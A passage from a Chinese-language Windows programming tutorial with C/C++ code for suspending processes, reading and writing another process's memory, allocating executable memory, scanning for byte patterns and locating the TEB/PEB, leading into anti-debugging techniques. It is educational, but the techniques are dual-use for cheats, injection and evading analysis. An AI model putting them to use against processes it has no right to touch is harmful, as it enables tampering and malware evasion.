}SYSTEM_PROCESS_INFORMATION, * PSYSTEM_PROCESS_INFORMATION;

// 获取线程是被是否被挂起 1=表示线程被挂起  0=表示线程正常 -1=未知状态
int IsThreadSuspend(DWORD dwProcessID, DWORD dwThreadID)
{
  int nRet = 0;
  NTSTATUS Status = 0;

  PQUERYSYSTEM NtQuerySystemInformation = NULL;
  PSYSTEM_PROCESS_INFORMATION pInfo = { 0 };

  // 获取函数地址
  NtQuerySystemInformation = (PQUERYSYSTEM) GetProcAddress(LoadLibrary("ntdll.dll"), "NtQuerySystemInformation");

  DWORD   dwSize = 0;

  // 获取信息所需的缓冲区大小
  Status = NtQuerySystemInformation(SystemProcessesAndThreadsInformation,// 要获取的信息的类型
    NULL, // 用于接收信息的缓冲区
    0,  // 缓冲区大小
    &dwSize
  );

  // 申请缓冲区
  char* pBuff = new char[dwSize];
  pInfo = (PSYSTEM_PROCESS_INFORMATION)pBuff;
  if (pInfo == NULL)
    return -1;

  // 再次调用函数, 获取信息
  Status = NtQuerySystemInformation(SystemProcessesAndThreadsInformation, // 要获取的信息的类型
    pInfo, // 用于接收信息的缓冲区
    dwSize,  // 缓冲区大小
    &dwSize
  );
  if (!NT_SUCCESS(Status))
  {
    /*如果函数执行失败*/
    delete[] pInfo;
    return -1;
  }

  // 遍历结构体,找到对应的进程
  while (1)
  {
    // 判断是否还有下一个进程
    if (pInfo->NextEntryDelta == 0)
      break;

    // 判断是否找到了ID
    if (pInfo->ProcessId == dwProcessID)
    {

      // 找到该进程下的对应的线程,也就是遍历所有线程
      for (DWORD i = 0; i < pInfo->ThreadCount; i++)
      {
        if (pInfo->Threads[i].ClientId.UniqueThread == dwThreadID)
        {
          // 找到线程 
          // 如果线程被挂起
          if (pInfo->Threads[i].State == StateWait&& pInfo->Threads[i].WaitReason == Suspended)
          {
            nRet = 1;
            break;
          }
        }
      }
      break;
    }
    // 迭代到下一个节点
    pInfo = (PSYSTEM_PROCESS_INFORMATION)(((PUCHAR)pInfo) + pInfo->NextEntryDelta);
  }

  delete[] pBuff;
  return nRet;
}

// 设置进程状态 挂起/非挂起
int SuspendProcess(DWORD dwProcessID, BOOL fSuspend)
{
  HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, dwProcessID);

  if (hSnapshot != INVALID_HANDLE_VALUE)
  {
    THREADENTRY32 te = { sizeof(te) };
    BOOL fOk = Thread32First(hSnapshot, &te);
    for (; fOk; fOk = Thread32Next(hSnapshot, &te))
    {
      if (te.th32OwnerProcessID == dwProcessID)
      {
        HANDLE hThread = OpenThread(THREAD_SUSPEND_RESUME,FALSE, te.th32ThreadID);
        if (hThread != NULL)
        {
          if (fSuspend)
          {
            if (IsThreadSuspend(dwProcessID, te.th32ThreadID) == 0)
            {
              SuspendThread(hThread);
            }
            else
            {
              return 0;
            }
          }
          else
          {
            if (IsThreadSuspend(dwProcessID, te.th32ThreadID) == 1)
            {
              ResumeThread(hThread);
            }
            else
            {
              return 0;
            }
          }
        }
        CloseHandle(hThread);
      }
    }

  }
  CloseHandle(hSnapshot);
  return 1;
}

int main(int argc, char *argv[])
{
  // 挂起进程
  SuspendProcess(20308, TRUE);

  // 恢复进程
  SuspendProcess(20308, FALSE);

  return 0;
}
```

读者可自行编译并运行上述代码，通过调用`SuspendProcess`函数并以此传入需要挂起的进程PID以及一个状态，当该状态为TRUE时则代表挂起进程，而当状态值为FALSE时则代表为恢复一个进程，当一个进程被挂起后其会出现卡死的现象，当恢复后一切都会变得正常。

### 7.7 进程内存读写

内存进程读写可以让我们访问其他进程的内存空间并读取或修改其中的数据。这种技术通常用于各种调试工具、进程监控工具和反作弊系统等场景。

在`Windows`系统中，内存进程读写可以通过一些`API`函数来实现，如`OpenProcess`、`ReadProcessMemory`和`WriteProcessMemory`等。这些函数提供了一种通用的方式来访问其他进程的内存，并且可以用来读取或写入不同类型的数据，例如整数、字节集、浮点数等。

在开始编写内存读者功能之前我们先来实现一个获取特定进程内特定模块基址的功能，该功能的实现分为两部分首先我们封装一个`GetProcessModuleHandle`函数，该函数用户可传入一个进程`PID`以及需要获取的进程内的模块名，此时会通过循环的方式找到所需返回的模块并返回该模块的`moduleEntry.hModule`基址，由于使用了进程快照函数所以在使用时需要引入`TlHelp32.h`库。

```c
// 根据PID模块名（需要写后缀.dll）获取模块入口地址
HMODULE GetProcessModuleHandle(DWORD pid, CONST TCHAR* moduleName)
{
  MODULEENTRY32 moduleEntry;
  HANDLE handle = NULL;

  // 获取进程快照中包含在th32ProcessID中指定的进程的所有的模块
  handle = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, pid);
  if (!handle)
  {
    CloseHandle(handle);
    return NULL;
  }
  ZeroMemory(&moduleEntry, sizeof(MODULEENTRY32));
  moduleEntry.dwSize = sizeof(MODULEENTRY32);
  if (!Module32First(handle, &moduleEntry))
  {
    CloseHandle(handle);
    return NULL;
  }
  do
  {
    if (_tcscmp(moduleEntry.szModule, moduleName) == 0)
    {
      return moduleEntry.hModule;
    }
  } while (Module32Next(handle, &moduleEntry));

  CloseHandle(handle);
  return 0;
}
```

有了上述读取模块基址的函数，接着就是要封装实现`GetProcessModuleBase`函数，该函数接收两个参数，分别是进程名以及模块名，并返回该模块在指定进程中的句柄。如果指定的模块名称不存在于所给进程的模块列表中，函数会返回NULL。

```c
// 返回ExeName进程中指定Dll的基址
DWORD GetProcessModuleBase(string ExeName, string DllName)
{
  HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);  // 进程快照句柄
  PROCESSENTRY32 process = { sizeof(PROCESSENTRY32) };                    // 存放进程快照的结构体

  //  遍历进程
  while (Process32Next(hProcessSnap, &process))
  {
    // 寻找ExeName指定进程 char* 转 string
    string s_szExeFile = process.szExeFile;
    if (s_szExeFile == ExeName)
    {
      HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process.th32ProcessID);
      if (hProcess != NULL)
      {
        // 寻找DllName并返回DWORD类型基址
        return (DWORD)GetProcessModuleHandle(process.th32ProcessID, DllName.c_str());
      }
    }
  }
  return 0;
}
```

参数说明：

 - hProcess：指定进程的句柄，通常可以通过OpenProcess函数获取。
 - lpModuleName：要获取的模块名称，可以是一个字符串形式的模块名称或者指向模块名称字符串的指针。

当有了上述两个模块的支持那么实现进程模块基址的读取将变得非常容易实现，如下是一段读取模块句柄的代码示例，在代码中我们分别读取了`Tutorial-i386.exe`自身模块基地址，以及该进程内`user32.dll`模块基址，需要注意的是运行该程序需要使用管理员身份。

```c
int main(int argc, char *argv[])
{
  // "Tutorial-i386.exe"+256650
  DWORD DllBase = GetProcessModuleBase("Tutorial-i386.exe", "Tutorial-i386.exe");
  if (DllBase != 0)
  {
    std::cout << "模块基地址: " << hex << DllBase + 0x256650 << std::endl;
  }

  DWORD User32 = GetProcessModuleBase("Tutorial-i386.exe", "user32.dll");
  if (User32 != 0)
  {
    std::cout << "模块基地址: " << hex << User32 << std::endl;
  }

  system("pause");
  return 0;
}
```

运行上述代码片段，读者可看到如下输出结果，代码中分别读取了一个进程基址，与系统模块基址。



接着我们讲解一下内存读写的实现方法，此处的读写分为32位与64位实现，在32位进程读写时可以使用微软提供的`ReadProcessMemory`读及`WriteProcessMemory`写入，这两个函数在参数传递上并没有太大的差异。

ReadProcessMemory 函数用于从指定进程中读取指定内存地址的数据，写入一个缓冲区中。函数接受的参数包括要读取的进程句柄，要读取的内存地址，要读取的数据大小等。如果读取成功，函数会返回非零值。

```c
BOOL WINAPI ReadProcessMemory(
  HANDLE  hProcess,
  LPCVOID lpBaseAddress,
  LPVOID  lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesRead
);
```

WriteProcessMemory 函数用于向指定进程中写入数据，写入一个缓冲区中的数据到另一个进程指定的内存地址中。函数接受的参数包括要写入的进程句柄，要写入的内存地址，要写入的数据大小等。如果写入成功，函数会返回非零值。

```c
BOOL WINAPI WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

在使用 `ReadProcessMemory()` 和 `WriteProcessMemory()` 函数时，需要以管理员身份运行程序。此外，为了访问其他进程的内存，还需要指定合适的访问权限，并且需要根据具体情况指定正确的内存地址和数据类型。

```c
BOOL ReadMemory(DWORD dwID, LPCVOID lpAddress, DWORD* pRead)
{
  HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwID);
  if (INVALID_HANDLE_VALUE == hProcess)
  {
    return FALSE;
  }
  DWORD dwTemp = 0;
  ReadProcessMemory(hProcess, lpAddress, (LPVOID)(pRead), 4, &dwTemp);
  if (4 != dwTemp)
  {
    return FALSE;
  }
  return TRUE;
}

BOOL WriteMemory(DWORD dwID, LPVOID lpAddress, DWORD dwWrite)
{
  HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwID);
  if (INVALID_HANDLE_VALUE == hProcess)
  {
    return FALSE;
  }
  DWORD dwTemp = 0;
  WriteProcessMemory(hProcess, lpAddress, (LPVOID)(&dwWrite), 4, &dwTemp);
  if (4 != dwTemp)
  {
    return FALSE;
  }
  return TRUE;
}

// 读取指定位置内存数据
DWORD Read(DWORD dwPID, std::string strAddress)
{
  // 字符串转为16进制整数指针
  LPCVOID lpAddress = (LPCVOID)::strtol(strAddress.c_str(), NULL, 16);
  DWORD dwRead = 0;

  // 调用内存读取
  BOOL ref = ReadMemory(dwPID, lpAddress, &dwRead);
  if (ref == TRUE)
  {
    return dwRead;
  }
  return FALSE;
}

// 写入指定位置内存数据
BOOL Write(DWORD dwPID, std::string strAddress, std::string write_value)
{
  LPVOID lpAddress = (LPVOID)::strtol(strAddress.c_str(), NULL, 16);
  DWORD dwWrite = ::strtol(write_value.c_str(), NULL, 16);
  BOOL bRet = WriteMemory(dwPID, lpAddress, dwWrite);
  if (bRet == TRUE)
  {
    return TRUE;
  }
  return FALSE;
}
```

而如果读者使用的是64位环境，那么内存读写则需要借助于`NtWow64ReadVirtualMemory64`以及`NtWow64WriteVirtualMemory64`这两个未公开函数实现。

`NtWow64ReadVirtualMemory64` 和 `NtWow64WriteVirtualMemory64` 函数用于在 `64` 位 `Windows` 系统中的 `32` 位进程中读写虚拟内存。这两个函数通常不直接由应用程序调用，而是由系统的函数库和其他底层代码使用。

NtWow64ReadVirtualMemory64 函数的原型为：

```c
NTSTATUS NTAPI NtWow64ReadVirtualMemory64(HANDLE ProcessHandle,
    PVOID64 BaseAddress,
    PVOID Buffer,
    ULONG64 Size,
    PULONG64 NumberOfBytesRead);
```

该函数接受五个参数:

 - ProcessHandle: 进程的句柄。用于指定要读取内存的进程。
 - BaseAddress: 要读取的起始地址。
 - Buffer: 读取的数据存储在这个缓冲区中。
 - Size: 要读取的字节数量。
 - NumberOfBytesRead: 实际读取的字节数量。

NtWow64WriteVirtualMemory64 函数的原型为：

```c
NTSTATUS NTAPI NtWow64WriteVirtualMemory64(HANDLE ProcessHandle,
    PVOID64 BaseAddress,
    PVOID Buffer,
    ULONG64 Size,
    PULONG64 NumberOfBytesWritten);
```

该函数同样接受五个参数:

 - ProcessHandle: 进程的句柄。指定要写入内存的进程。
 - BaseAddress: 要写入的起始地址。
 - Buffer: 要写入的数据存储在这个缓冲区中。
 - Size: 要写入的字节数量。
 - NumberOfBytesWritten: 实际写入的字节数量。

上述这两个函数都位于`ntdll.dll`库中，在使用时需要通过`LoadLibrary`函数获取到该动态链接库的模块句柄，并在该内存中使用`GetProcAddress`函数动态得到上述两个函数的基地址，有了基址就可以使用函数指针的方式动态的引用内存读写功能，如下则是一个完整的读写使用案例。

```c
BOOL ReadMemory(DWORD dwID, PVOID64 lpAddress, DWORD* pRead)
{
  // 打开进程并返回句柄
  HANDLE hProcess = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwID);
  if (INVALID_HANDLE_VALUE == hProcess)
  {
    return FALSE;
  }

  typedef void* POINTER_64 PVOID64;
  // 定义函数指针
  typedef NTSTATUS(__stdcall* NTWOW64READVIRTUALMEMORY64)(HANDLE ProcessHandle, PVOID64  BaseAddress, PVOID Buffer, DWORD64 BufferSize, PDWORD64 NumberOfBytesRead);
  NTWOW64READVIRTUALMEMORY64 pNtWow64ReadVirtualMemory64 = NULL;

  // 加载模块基址
  HMODULE hModule = ::LoadLibrary("ntdll.dll");
  if (NULL == hModule)
  {
    return FALSE;
  }

  // 通过GetProcAddress函数获取NtWow64ReadVirtualMemory64入口地址
  pNtWow64ReadVirtualMemory64 = (NTWOW64READVIRTUALMEMORY64)::GetProcAddress(hModule, "NtWow64ReadVirtualMemory64");
  if (NULL == pNtWow64ReadVirtualMemory64)
  {
    return FALSE;
  }

  DWORD64 dwTemp = (DWORD64)0;

  // 调用64位内存读取函数
  pNtWow64ReadVirtualMemory64(hProcess, (PVOID64)lpAddress, (LPVOID)(pRead), 4, &dwTemp);
  FreeLibrary(hModule);
  if (4 != dwTemp)
  {
    return FALSE;
  }
  return TRUE;
}

BOOL WriteMemory(DWORD dwID, PVOID64 lpAddress, DWORD* pWrite)
{
  // 打开进程并返回句柄
  HANDLE hProcess = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwID);
  if (INVALID_HANDLE_VALUE == hProcess)
  {
    return FALSE;
  }

  typedef void* POINTER_64 PVOID64;
  // 定义函数指针
  typedef NTSTATUS(__stdcall* NTWOW64WRITEVIRTUALMEMORY64)(HANDLE ProcessHandle, PVOID64  BaseAddress, PVOID Buffer, DWORD64 BufferSize, PDWORD64 NumberOfBytesRead);
  NTWOW64WRITEVIRTUALMEMORY64 pNtWow64WriteVirtualMemory64 = NULL;

  // 加载模块基址
  HMODULE hModule = ::LoadLibrary("ntdll.dll");
  if (NULL == hModule)
  {
    return FALSE;
  }

  // 通过GetProcAddress函数获取NtWow64WriteVirtualMemory64入口地址
  pNtWow64WriteVirtualMemory64 = (NTWOW64WRITEVIRTUALMEMORY64)::GetProcAddress(hModule, "NtWow64WriteVirtualMemory64");
  if (NULL == pNtWow64WriteVirtualMemory64)
  {
    return FALSE;
  }

  DWORD64 dwTemp = (DWORD64)0;

  // 调用内存写入
  pNtWow64WriteVirtualMemory64(hProcess, (PVOID64)lpAddress, (pWrite), 4, &dwTemp);
  ::FreeLibrary(hModule);
  if (4 != dwTemp)
  {
    return FALSE;
  }
  return TRUE;
}

// 执行内存读取
DWORD Read(DWORD dwPID, std::string strAddress)
{
  // LPCVOID lpAddress = (LPCVOID)::strtol(m_strAddress, NULL, 16);
  typedef void* POINTER_64 PVOID64;
  PVOID64 lpAddress = (PVOID64)::_strtoi64_l(strAddress.c_str(), NULL, 16, NULL);

  DWORD dwRead = 0;
  
  BOOL ref = ReadMemory(dwPID, lpAddress, &dwRead);

  if (ref == TRUE)
  {
    return dwRead;
  }
  return FALSE;
}

// 执行写入命令
BOOL Write(DWORD dwPID, std::string strAddress, DWORD write_value)
{
  typedef void* POINTER_64 PVOID64;
  PVOID64 lpAddress = (PVOID64)::_strtoi64_l(strAddress.c_str(), NULL, 16, NULL);
  BOOL bRet = WriteMemory(dwPID, lpAddress, &write_value);
  if (bRet)
  {
    return TRUE;
  }
  return FALSE;
}
```

上述代码的使用非常容易，调用内存写入时只需要传入进程PID，写入的内存地址，和写入的数据长度即可，如下所示则是实现调用的案例。

```c
int main(int argc, char *argv[])
{
  DWORD Pid = 13564;

  // 执行内存写入
  BOOL write_flag = Write(Pid, "0x00151F38", "9999");
  printf("[内存写入] 状态 = %d \n", write_flag);

  // 执行内存读取
  DWORD read_byte = Read(Pid, "0x00151F38");
  printf("[内存读取] 数据 = %d \n", read_byte);

  system("pause");
  return 0;
}
```

内存读写输出效果如下图所示；



我们以`32`位为例对上述函数进行整合封装，实现一个通用的内存读写，通过使用`template`模板机制封装`ReadMemory`内存读取，`WriteMemory`内存写入，这些函数在调用时支持读写，内存整数型，短整数，浮点数，字节，字节集等，同时还封装实现`FindPattern`函数用于实现对特定内存的特征匹配，读者在编写进程读写时可以直接使用这些函数案例，完整代码如下所示；

```c
#include <Windows.h>
#include <iostream>
#include <TlHelp32.h>

// 打开进程
HANDLE GetProcessHandle(DWORD pid)
{
  return OpenProcess(PROCESS_ALL_ACCESS, 0, pid);
}

// 获取进程PID
DWORD GetProcessIdByHwnd(DWORD hWnd)
{
  DWORD pid;
  GetWindowThreadProcessId((HWND)hWnd, &pid);
  return pid;
}

// 取进程PID
DWORD GetProcessIdByName(LPCTSTR name)
{
  HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot)
  {
    return NULL;
  }
  PROCESSENTRY32 pe = { sizeof(pe) };

  for (BOOL ret = Process32First(hSnapshot, &pe); ret; ret = Process32Next(hSnapshot, &pe))
  {
    if (lstrcmpi(pe.szExeFile, name) == 0)
    {
      CloseHandle(hSnapshot);
      return pe.th32ProcessID;
    }
  }
  CloseHandle(hSnapshot);
  return 0;
}

// 取指定模块句柄
DWORD GetProcessModuleHandle(DWORD pid, CONST TCHAR* moduleName)
{
  MODULEENTRY32 moduleEntry;
  HANDLE handle = NULL;
  handle = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, pid);
  if (!handle)
  {
    CloseHandle(handle);
    return NULL;
  }

  ZeroMemory(&moduleEntry, sizeof(MODULEENTRY32));
  moduleEntry.dwSize = sizeof(MODULEENTRY32);
  if (!Module32First(handle, &moduleEntry))
  {
    CloseHandle(handle);
    return NULL;
  }

  do
  {
    if (lstrcmpi(moduleEntry.szModule, moduleName) == 0)
    {
      return (DWORD)moduleEntry.hModule;
    }
  } while (Module32Next(handle, &moduleEntry));
  CloseHandle(handle);
  return 0;
}

// 读取类型: 整数型 短整数型 浮点型 字节型
template<typename T1>
T1 ReadMemory(HANDLE processHandle, DWORD pAddr)
{
  T1 result;
  ReadProcessMemory(processHandle, (LPCVOID)(pAddr), &result, sizeof(T1), NULL);
  return result;
}

// 读取类型: 自定义大小内存
template<typename T1>
T1* ReadMemory(HANDLE processHandle, DWORD pAddr, DWORD length)
{
  T1* result = new T1[length];
  ReadProcessMemory(processHandle, (LPCVOID)(pAddr), result, length, NULL);
  return result;
}

// 写类型: 整数型 短整数型 浮点型 字节型
template<typename T1>
void WriteMemory(HANDLE processHandle, DWORD pAddr, T1 vaule)
{
  WriteProcessMemory(processHandle, (LPVOID)(pAddr), &vaule, sizeof(T1), NULL);
}

// 写类型: 字节集
template<typename T1>
void WriteMemory(HANDLE processHandle, DWORD pAddr, T1 vaule, DWORD length)
{
  WriteProcessMemory(processHandle, (LPVOID)(pAddr), vaule, length, NULL);
}

// 分配内存
DWORD AllocMemory(HANDLE processHandle, DWORD size)
{
  return (DWORD)VirtualAllocEx(processHandle, NULL, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
}

// 释放内存
BOOL FreeMemory(HANDLE processHandle, DWORD addr, DWORD size)
{
  return VirtualFreeEx(processHandle, (LPVOID)addr, size, MEM_RELEASE);
}

// 特征查找
uintptr_t FindPattern(HANDLE processHandle, uintptr_t start, uintptr_t length, const unsigned char* pattern, const char* mask)
{
  size_t pos = 0;
  auto maskLength = strlen(mask) - 1;

  auto startAdress = start;
  for (auto it = startAdress; it < startAdress + length; ++it)
  {
    if (ReadMemory<unsigned char>(processHandle, (DWORD)it) == pattern[pos] || mask[pos] == '?')
    {
      if (mask[pos + 1] == '\0')
      {
        return it - maskLength;
      }
      pos++;
    }
    else
    {
      pos = 0;
    }
  }
  return 0;
}
```

当我们需要读写整数或浮点数时只需要在调用特定函数时传入模板即可，我们以读取浮点数为例，在调用`ReadMemory`函数时传入`<FLOAT>`则代表参数传递采用浮点数模式，同理读取整数时同样可以使用`<DWORD>`模板，如下代码则是实现读写整数与浮点数的案例演示。

```c
int main(int argc, char *argv[])
{
  DWORD Pid = GetProcessIdByName(L"Tutorial-i386.exe");
  printf("[+] 进程PID = %d \n", Pid);

  HANDLE handle = GetProcessHandle(Pid);
  printf("[+] 进程句柄 = %X \n", handle);

  // -----------------------------------------------------------
  // 进程写内存
  // -----------------------------------------------------------

  // 写整数
  WriteMemory<DWORD>(handle, 0x019C7A18, (DWORD)1000);

  // 写浮点数
  WriteMemory<FLOAT>(handle, 0x019CD0E8, (FLOAT)100.234);

  // -----------------------------------------------------------
  // 进程读内存
  // -----------------------------------------------------------

  // 读整数
  DWORD read_dword = ReadMemory<DWORD>(handle, 0x019C7A18);
  printf("[*] 读内存整数型 = %d \n", read_dword);

  // 读浮点数
  FLOAT read_float = ReadMemory<FLOAT>(handle, 0x019CD0E8);
  printf("[*] 读内存浮点数 = %f \n", read_float);

  system("pause");
  return 0;
}
```

上述代码运行后，首先会调用写入函数对内存`0x19C7A18`写入`1000`的整数，并对`0x19CD0E8`写入`100.234`的浮点数，接着会再调用`ReadMemory`将这两个数读取并输出到屏幕，如下图所示；



接着我们继续实现读写内存字节集的功能，字节集的读写其原理是通过循环的方式读写字节，每次循环时内存地址递增1，并循环将列表内的参数一次性写出到进程中，在写入字节集之前需要确保该内存空间具有`PAGE_EXECUTE_READWRITE`读写执行属性，如果不存在则还需要调用`VirtualProtectEx`设置属性，如下所示是读写字节集的完整代码；

```c
int main(int argc, char *argv[])
{
  DWORD Pid = GetProcessIdByName(L"Tutorial-i386.exe");
  printf("[+] 进程PID = %d \n", Pid);

  HANDLE handle = GetProcessHandle(Pid);
  printf("[+] 进程句柄 = %X \n", handle);

  // -----------------------------------------------------------
  // 进程写字节集
  // -----------------------------------------------------------

  DWORD addr = 0x57E000;
  DWORD length = 10;

  BYTE code[10] = { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };

  DWORD old_protect;
  if (VirtualProtectEx(handle, (LPVOID)addr, length, PAGE_EXECUTE_READWRITE, &old_protect))
  {
    BYTE* temp = (BYTE*)addr;
    for (int i = 0; i < length; i++)
    {
      WriteMemory<BYTE>(handle, DWORD(temp + i), code[i]);

    }
  }
  VirtualProtectEx(handle, (LPVOID)addr, length, old_protect, NULL);

  // -----------------------------------------------------------
  // 进程读字节与字节集
  // -----------------------------------------------------------

  // 测试读字节
  BYTE read_byte = ReadMemory<BYTE>(handle, 0x57E000);
  printf("[byte] 读内存字节 = %02X \n", read_byte);

  // 测试读字节集
  BYTE** read_byte_ptr = ReadMemory<BYTE *>(handle, 0x57E000, 10);

  for (int x = 0; x < 10; x++)
  {
    printf("[bytes] 读[%d]字节集 = %02X \n", x, read_byte_ptr[x]);
  }

  system("pause");
  return 0;
}
```

当读者运行上述代码后，会调用`WriteMemory<BYTE>`向内存`0x57E000`写出一段`code`字节集，接着再次调用`ReadMemory<BYTE *>`读取字节集并打印输出，如下图所示；



特征码搜索功能可以使用`FindPattern`函数，该函数接收匹配进程的句柄，以及内存开始位置及结束位置，变量`find_code`则是所需搜索的字节集列表，`mask`代表字节集掩码，此处的掩码必须要与字节集列表保持一致，当搜索到特征码之后会返回当前的内存地址，放入`param`变量内，如下代码；

```c
int main(int argc, char *argv[])
{
  DWORD Pid = GetProcessIdByName(L"Tutorial-i386.exe");
  printf("[+] 进程PID = %d \n", Pid);

  HANDLE handle = GetProcessHandle(Pid);
  printf("[+] 进程句柄 = %X \n", handle);

  DWORD module_base = GetProcessModuleHandle(Pid, L"Tutorial-i386.exe");
  printf("[*] 模块句柄 = %X \n", module_base);

  // -----------------------------------------------------------
  // 内存特征匹配
  // -----------------------------------------------------------

  // 读取DOS头
  IMAGE_DOS_HEADER DOSHeader = ReadMemory<IMAGE_DOS_HEADER>(handle, (DWORD)module_base);
  printf("[+] DOS Header = %X \n", DOSHeader);

  // 得到NT头
  IMAGE_NT_HEADERS NTHeaders = ReadMemory<IMAGE_NT_HEADERS>(handle, DWORD(uintptr_t(module_base) + DOSHeader.e_lfanew));
  printf("[+] NT Header = %X \n", NTHeaders);

  // 搜索字节集
  BYTE find_code[10] = { 0xF0, 0x8B, 0x46, 0x08, 0xE8, 0xCF, 0xD8, 0xFF, 0xFF, 0x8B };

  // 搜索掩码
  const char* mask = "?? ?? ?? ?? ?? ?? ?? ?? ?? ??";

  // 搜索特征码并返回指针
  uintptr_t param = FindPattern(handle,
    reinterpret_cast<uintptr_t>(handle)+NTHeaders.OptionalHeader.BaseOfCode,
    reinterpret_cast<uintptr_t>(handle)+NTHeaders.OptionalHeader.SizeOfCode,
    find_code,
    mask
    );

  printf("param = 0x%x \n", param);

  system("pause");
  return 0;
}
```

运行后即可搜索到PE文件内，符合条件的内存机器码，输出效果如下图所示；



## 第八篇：进程反调试应用技术

反调试技术是指恶意程序中使用的一些手段，用于防止被反病毒工程师或调试程序进行分析。恶意程序使用反调试技术以判断自身是否正在被调试并有意识地阻止调试行为的进行。除了防止恶意程序被分析和检测之外，反调试技术还可用于保护合法程序不被恶意破解。实现反调试技术的方式有多种，本章将依次介绍这些反调试技术的实现原理，并使用C语言实现这些技术。

### 8.1 TEB/PEB

在开始使用`TEB/PEB`获取进程或线程ID之前，我想有必要解释一下这两个名词，PEB指的是进程环境块`（Process Environment Block）`，用于存储进程状态信息和进程所需的各种数据。每个进程都有一个对应的`PEB`结构体。TEB指的是线程环境块`（Thread Environment Block）`，用于存储线程状态信息和线程所需的各种数据。每个线程同样都有一个对应的`TEB`结构体。

PEB中包含了进程的代码、数据段指针、进程的环境变量、进程启动参数信息以及加载的dll信息等。PEB结构体中的`FS段寄存器`通常被设置为`0x30`，指向当前进程的`PEB`结构体。其他进程可以通过访问自己的PEB结构体来获取自己的状态和信息。

TEB中包含了线程的堆栈指针、TLS（线程本地存储）指针、异常处理链表指针、用户模式分页表指针等信息。TEB中的FS段寄存器通常被设置为`fs:[0]`，指向当前线程的TEB结构体。其他线程可以通过访问自己的TEB结构体来获取自己的状态和信息。

在创建进程时，操作系统会为每个线程分配一个TEB（线程环境块），并且该环境块中FS段寄存器总是被设置为`fs:[0]`的位置上，也就是默认指向当前线程的TEB数据。因此，在进行代码分析时，可以通过通配符来找到TEB结构体的具体名称。



接着我们可通过`dt -rv ntdll!_TEB`命令，查询`ntdll!_TEB`结构，如下图所示，我们可以看到偏移为`+0x018`的位置就是`TEB结构头`指针，在该地址基础上向下偏移`0x30`就可以得到`PEB(进程环境块)`的基地址。

其中`+0x000`的位置指向了`NT_TIB`结构，`+0x018`指向`NT_TIB结构`TEB自身，`+0x020+0x000`指向的是当前进程的PID，`+0x020+0x004`则指向父进程的PPID，`+0x030`指向了PEB结构体，其他字段读者可自行查阅官方文档；



接着再来验证一下，首先偏移地址`0x18`是TEB结构基地址，也就是指向自身偏移`fs:[0x18]`的位置，而`!teb`地址加`0x30`正是`PEB`的位置，在teb的基础上加上`0x30`就可以得到PEB的基地址，拿到PEB基地址就可以干很多事了。



在线程环境块内，`fs:[0x18]`定位到`TEB(线程环境块)`，加上`0x20`得到`ClientId`，此处存储的就是进程与线程ID的结构位置，通过`+0x000`可得到`UniqueProcess`也就是进程PID，通过`+0x004`可得到`UniqueThread`也就是线程TID，读者可输入如下所示的命令自行验证；
```c
0:000> dd fs:[0x18]                                  # 找到TEB基地址
0053:00000018  0081e000 00000000 0000139c 0000194c
0053:00000028  00000000 0081e02c 0081b000 00000000

0:000> dt _teb 0081e000 
ntdll!_TEB
   +0x000 NtTib            : _NT_TIB
   +0x01c EnvironmentPointer : (null) 
   +0x020 ClientId         : _CLIENT_ID              # 将TEB+0x20定位到这里(进程与线程信息)
   +0x028 ActiveRpcHandle  : (null) 

0:004> dt _CLIENT_ID 0081e000                        # 查看进程详细结构
ntdll!_CLIENT_ID
   +0x000 UniqueProcess    : 0x00b3f774 Void         # 获取进程PID
   +0x004 UniqueThread     : 0x00b40000 Void         # 获取线程TID
```

有了上述分析结果那么读者可以很容易的获取到当前自身进程的PID以及TID信息，其完整代码片段如下所示，当读者向`GetSelfID()`传入1则表示读取PID，否则则读取TID信息；
```c
#include <stdio.h>
#include <Windows.h>

// 传入1获取PID传入0获取TID
DWORD GetSelfID(DWORD isPid)
{
    DWORD ref = 0;

    if (isPid == 1)
    {
        __asm
        {
            mov eax, fs:[0x18]    // 获取到PEB基地址
            add eax, 0x20         // 加上20得到 _CLIENT_ID
            add eax, 0x0          // 加上偏移0得到 UniqueProcess
            mov eax, [eax]        // 取出内存地址中的值
            mov ref, eax
        }
    }
    else
    {
        __asm
        {
            mov eax, fs:[0x18]   // 获取到PEB基地址
            add eax, 0x20        // 加上20得到 _CLIENT_ID
            add eax, 0x04        // 加上偏移04得到 UniqueThread
            mov eax, [eax]       // 取出内存地址中的值
            mov ref, eax
        }
    }
    return ref;
}

int main(int argc, char* argv[])
{
    printf("进程 Pid = %d \n", GetSelfID(1));
    printf("线程 Tid = %d \n", GetSelfID(0));

    system("pause");
    return 0;
}
```

读者可运行上述代码，并自行打开任务管理器验证是否可以正确获取到，此处执行效果图如下所示；



### 8.2 BeingDebugged

BeingDebugged 是`Windows`系统`PEB`结构体中的一个成员，它是一个标志位，用于标识当前进程是否正在被调试。BeingDebugged的值为0表示当前进程未被调试，值为1表示当前进程正在被调试。由于`BeingDebugged`是在`PEB`结构体中存储的，因此可以通过访问`PEB`结构体来获取`BeingDebugged`的值。恶意软件可以使用`BeingDebugged`来判断自己是否正在被调试，以此来防止被反病毒工程师或调试程序进行分析。反病毒工程师们也可以通过检查`BeingDebugged`的值来判断程序是否正被调试从而进行恶意软件的检测和分析。

进程在运行时，位置`FS:[30h]`指向PEB的基地址，为了实现反调试，恶意代码通过这个位置来检查`BeingDebugged`标志位是否为1，如果为1则说明进程被调试。

